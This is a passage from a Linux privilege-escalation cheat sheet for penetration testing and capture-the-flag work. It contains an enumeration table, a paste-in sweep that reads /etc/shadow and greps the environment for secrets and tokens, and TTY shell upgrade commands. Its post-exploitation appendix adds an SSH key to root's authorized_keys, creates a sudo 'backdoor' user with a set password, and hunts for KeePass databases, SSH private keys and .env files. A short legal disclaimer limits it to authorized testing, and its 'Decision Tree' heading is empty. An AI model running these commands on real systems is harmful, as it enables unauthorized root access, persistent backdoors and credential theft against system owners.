| **Files** | shadow perms | `ls -la /etc/shadow` | Readable = crack hashes |
| **Capabilities** | Find caps | `getcap -r / 2>/dev/null` | cap_setuid = root |
| **Cron** | System crontab | `cat /etc/crontab` | Find root cron jobs |
| **Cron** | Cron dirs | `ls /etc/cron.d/ /etc/cron.daily/` | Find writable scripts |
| **Cron** | Live monitoring | `./pspy64` | See real-time cron |
| **Services** | Running services | `ps aux` / `systemctl list-units` | Find running root procs |
| **Network** | Open ports | `ss -tlnp` / `netstat -tlnp` | Internal services |
| **Network** | NFS exports | `cat /etc/exports` | Find no_root_squash |
| **Docker** | Group check | `id \| grep docker` | Docker group = root |
| **LXD** | Group check | `id \| grep lxd` | LXD group = root |
| **PATH** | Investigate SUID | `strings /suid-binary` | PATH injection targets |
| **LD_PRELOAD** | Sudo env | `sudo -l \| grep LD_PRELOAD` | Shared lib injection |
| **Kernel** | Exploit suggest | `./linux-exploit-suggester.sh` | Find kernel CVEs |
| **Passwords** | History files | `cat ~/.bash_history` | Credential leakage |
| **Passwords** | Config files | `grep -r "password" /etc/ 2>/dev/null` | Cleartext creds |
| **Passwords** | SSH keys | `find / -name id_rsa 2>/dev/null` | Reuse SSH keys |
| **Containers** | In container? | `cat /.dockerenv` / `cat /proc/1/cgroup` | Identify environment |

---

## 16. Decision Tree



---

## Appendix A: Quick One-Liner Checklist

```bash
# Paste this into your shell after obtaining a low-priv shell for a rapid sweep:

echo "=== IDENTITY ===" && id && whoami && groups
echo "=== SUDO ===" && sudo -l 2>/dev/null
echo "=== SUID ===" && find / -perm -4000 -type f 2>/dev/null
echo "=== SGID ===" && find / -perm -2000 -type f 2>/dev/null
echo "=== CAPABILITIES ===" && getcap -r / 2>/dev/null
echo "=== CRONTAB ===" && cat /etc/crontab 2>/dev/null && ls /etc/cron.d/ 2>/dev/null
echo "=== PASSWD PERMS ===" && ls -la /etc/passwd /etc/shadow /etc/sudoers 2>/dev/null
echo "=== NFS ===" && cat /etc/exports 2>/dev/null
echo "=== DOCKER/LXD ===" && id | grep -E "docker|lxd"
echo "=== WRITABLE /ETC ===" && find /etc -writable -type f 2>/dev/null
echo "=== KERNEL ===" && uname -a
echo "=== ENV ===" && env | grep -i "pass\|key\|secret\|token"
echo "=== HISTORY ===" && cat ~/.bash_history 2>/dev/null | tail -30
```

---

## Appendix B: Spawning a TTY Shell

Many exploitation techniques give you a bare shell without TTY. Upgrade it immediately:

```bash
# Python (most common)
python3 -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'

# Perl
perl -e 'exec "/bin/bash";'

# Ruby
ruby -e 'exec "/bin/bash"'

# script command
script /dev/null -c bash

# After spawning TTY, upgrade to fully interactive:
# Background the shell: Ctrl+Z
stty raw -echo; fg
# Press Enter twice, then:
export TERM=xterm
export SHELL=/bin/bash
stty rows 50 columns 200
```

---

## Appendix C: Post-Exploitation After Root

```bash
# Verify root
id
whoami
cat /etc/shadow

# Persistence — add SSH key
mkdir -p /root/.ssh
echo '<your-public-key>' >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys

# Persistence — add backdoor user
useradd -m -s /bin/bash -G sudo backdoor
echo 'backdoor:Password123!' | chpasswd

# Read flags (CTF)
cat /root/root.txt
find / -name "*.txt" -path "*/root/*" 2>/dev/null

# Dump credential stores
cat /etc/shadow
cat /root/.bash_history
find / -name "*.kdbx" 2>/dev/null   # KeePass databases
find / -name "id_rsa" 2>/dev/null   # SSH private keys
find / -name ".env" 2>/dev/null     # App environment files

# Check for other hosts (lateral movement)
cat /etc/hosts
arp -a
ip route
ss -tlnp
```

---

> **Legal Disclaimer:** This document is intended for authorized penetration testing and educational purposes only. Always obtain written permission before testing any system you do not own. Unauthorized access to computer systems is illegal and unethical.

---

*Last Updated: 2024 | References: GTFOBins, HackTricks, PayloadsAllTheThings, Exploit-DB*
